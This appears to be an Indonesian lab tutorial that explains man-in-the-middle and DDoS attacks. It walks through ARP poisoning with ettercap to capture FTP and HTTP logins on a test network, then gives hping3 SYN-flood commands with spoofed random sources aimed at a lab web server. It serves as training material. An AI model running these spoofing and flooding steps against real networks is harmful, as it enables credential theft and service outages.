








Pengertian
Man In The Middle
Man in the Middle Attack (MITM) adalah jenis serangan keamanan di mana seorang penyerang menyusup dan memanipulasi komunikasi antara dua pihak yang seharusnya saling tepercaya. Penyerang ini dapat memata-matai, mengubah, atau bahkan menyuntikkan data ke dalam komunikasi yang berlangsung tanpa diketahui oleh pengguna yang terlibat.
Serangan Man in the Middle memiliki potensi bahaya yang besar karena dapat menyebabkan pencurian informasi pribadi, seperti kata sandi, informasi keuangan, atau data sensitif lainnya. Selain itu, penyerang dapat memanipulasi komunikasi untuk merugikan salah satu atau kedua pihak yang terlibat.
Man in the Middle Attack dapat terjadi melalui berbagai teknik, tetapi pada dasarnya, penyerang menempatkan dirinya di antara komunikasi yang seharusnya aman. Ini dapat dilakukan dengan memanfaatkan celah keamanan atau menggunakan teknik tertentu yang akan kita bahas berikutnya.
Distributed Denial of Service

DDOS attack atau Distributed Denial of Service merupakan serangan cyber dengan cara mengirimkan fake traffic atau lalu lintas palsu ke suatu sistem atau server secara terus menerus. Dampaknya, server tersebut tidak dapat mengatur seluruh traffic sehingga menyebabkan down.
Umumnya serangan ini menyasar jaringan, layanan online, hingga website, dengan tujuan agar server tersebut tidak dapat mengakomodasi traffic atau lalu lintas sehingga website mengalami down dan tidak dapat beroperasi. Tak hanya menargetkan perseorangan atau perusahaan tertentu, serangan ini juga bisa menyasar sektor lebih tinggi seperti sektor pemerintahan.
Dalam prakteknya agar dapat menyerang suatu server, DDOS akan mengerahkan host dalam jumlah besar. Namun host yang dikerahkan tersebut adalah palsu, selanjutnya para hacker akan membanjiri lalu lintas server dengan host palsu tersebut. Sehingga ketika server berhasil dibanjiri oleh traffic hacker, dampaknya server akan lebih sulit diakses oleh host atau pengguna nyata.
Konfigurasi
1. Man In The Middle
Melihat Tabel ARP sebelum proses poisioning
Melihat Tabel ARP sebelum proses poisioning. ARP(Address Resolution Protocol) adalah protokol yang digunakan untuk menerjemah alamat IP menjadi alamat MAC pada Local Area Network. Sebuah host akan mengirimkan ARP request secara broadcast untuk mendapatkan alamat MAC host tujuan.
Windows- Client
Ketik: arp –a pada Windows- Client melalui cmd.
(catat hasil arp berupa ip address dan mac address dari Debian 10- Router )
11.1.25.254 00-0c-29-2e-cd-6d
Debian 10- Router
Ketik:
(catat hasil arp berupa ip address dan mac address dari Windows- Client )
11.1.25.2 00:0c:29:f5:1e:f6
KaliLinux
Ketik:
(catat hasil arp berupa ip address dan mac address dari Windows- Client& Debian 10- Router )
11.1.25.2 00:0c:29:f5:1e:f6 (Windows) 11.1.25.254 00:0c:29:2e:cd:6d (Router)
ARP Poisioning
Selanjutnya kita akan melakukan Man In Midle Attack melalui Kalilinux
Pada kalilinux, pilih application>sniffing&spoofing>ettercap-graphical
Pada ethercap pilih tab menu :
Sniff>unifield sniffing..
pada ettercap primary interfaces pilih:
eth0
Pilih tab menu host:
Scan for host
Pada host list, terdapat 2 alamat ip dan mac address hasil scan

a. Klik untuk pilih ip computer target dan klik add to target 1 (memasukan pc target yaitu Windows kedalam target1.)
b. Klik untuk pilih ip computer router dan klik add to target 2 (memasukan pc router kedalam target2)
Pilih tab menu MITM >ARP Poisioning
Pada optimal parameter pilih
Beri tanda check pada “sniff remote connection”

Melihat Tabel ARP setelah proses poisioning
Windows- Client
Ketik: arp –a pada Windows- Client melalui cmd.
(catat hasil arp berupa ip address dan mac address dari Debian 10- Router )
11.1.25.254 00-0c-29-be-b6-b6
Debian 10- Router
Ketik:
(catat hasil arp berupa ip address dan mac address dari Windows- Client )
11.1.25.2 00:0c:29:be:b6:b6
KaliLinux
Ketik:
(catat hasil arp berupa ip address dan mac address dari Windows- Client& Debian 10- Router )
11.1.25.2 00:0c:29:f5:1e:f6 (Windows) 11.1.25.254 00:0c:29:2e:cd:6d (Router)
Penjelasan
Sebelum proses ARP, Windows- Client memberikan semua informasi kepada Mac Address Router
Tetapi setelah proses ARP dilakukan, Windows- Client memberikan informasi kepada Mac Address KaliLinux baru setelah itu KaliLinux akan meneruskan informasi tersebut kepada Router.
Jadi, KaliLinux akan mendapatkan semua informasi dari Windows- Client
Pengujian ARP
FTP
Pengujian password FTP Dari Windows- Client , coba lakukan FTP ke router melalui perintah pada cmd
ftp 11.1.25.254 username : rizwan1 password : 123 
Pada Kali Linux lihat pada ethercap username password FTP yang terekam.
Web HTTP
Pengujian password Web Server/HTTP server dari Windows- Client dengan cara browsing database .php untuk pengetesan bisa ke website http://testphp.vulnweb.com/login.php
username : rizwan1 password : rizwanpemula
Pada Kali Linux lihat pada ethercap username password .php yang terekam.
2. Distributed Denial Of Service
Debian 10- Server
Kali ini kita ganti Interfaces Network untuk Debian 10- Server menjadi NAT atau Bridge. Ini artinya dia akan mendapatkan IP Internet yang satu segment dengan Router, yaitu : 192.168.91.0/24
Package
- net-tools
- iptables-persistent
- netfilter-persistent
- apache2
- proftpd
- libpam-cracklib
- tshark (new)
Masuk ke Debian 10- Server lalu install package tshark
apt install tshark non super user be able capture paket ? no
tshark adalah alat penganalisis protokol berbasis baris perintah yang digunakan untuk menangkap dan menganalisis lalu lintas jaringan dari jaringan langsung.
Selanjutnya kita bisa jalankan tshark ini dengan command
tshark
Lalu kita buka Windows- Client gunakan browser untuk buka web server milik Debian 10- Server
Buka KaliLinux lalu ketik command
hping3 -S --flood -V -p 80 (IP Debian 10- Server) hping3 -S --flood -V -p 80 192.168.91.130
Lalu di Kali Linux buka cmd yang baru untuk melancarkan aksi DDOS secara bersamaan
hping3 -c 10000 -d 120 -S -w 64 -p 80 --flood --rand-source (IP Debian 10- Server)
hping3 -c 10000 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.91.130

Lalu kita tunggu saja hingga Service Web Server dari Debian 10- Server itu down